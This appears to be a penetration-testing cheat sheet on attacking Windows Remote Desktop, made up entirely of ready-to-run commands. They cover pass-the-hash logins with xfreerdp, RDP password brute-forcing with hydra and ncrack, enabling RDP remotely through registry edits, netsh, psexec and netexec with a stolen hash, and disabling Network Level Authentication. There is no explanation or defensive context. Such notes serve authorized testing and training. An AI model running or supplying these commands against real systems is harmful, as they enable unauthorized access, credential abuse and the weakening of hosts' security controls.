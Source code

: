 ## Remote desktop access
- `xfreerdp /u:[domain]\[username] /p:[password] /v:[host] +clipboard /drive:[Windows share name],[kali folder]`
- `xfreerdp /u:[domain]\[username] /pth:[hash] /v:[host] +clipboard /drive:[Windows share name],[kali folder]`
- `rdesktop -d [domain] -u [username] -p [password] [host]`

### Brute Force
- `hydra -l [username] -P [wordlist] -s [port] rdp://[host]`
- `ncrack -vv --user Administrator -P /root/passwords.txt rdp://10.10.10.10`

### Enable RDP
- `PS C:\> reg add "HKLM\System\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0x00000000 /f`
- `PS C:\> netsh firewall set service remoteadmin enable`
- `PS C:\> netsh firewall set service remotedesktop enable`

#### Alternative
- `C:\> psexec \\machinename reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0`
- `kali@user$ netexec 10.10.10.10 -u username -H hashtext -M rdp -o ACTION=enable`

#### CredSSP erros
- `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`
- `reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f`

#### Disable NLA
- `PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").UserAuthenticationRequired`
- `PS > (Get-WmiObject -class "Win32_TSGeneralSetting" -Namespace root\cimv2\terminalservices -ComputerName "PC01" -Filter "TerminalName='RDP-tcp'").SetUserAuthenticationRequired(0)`
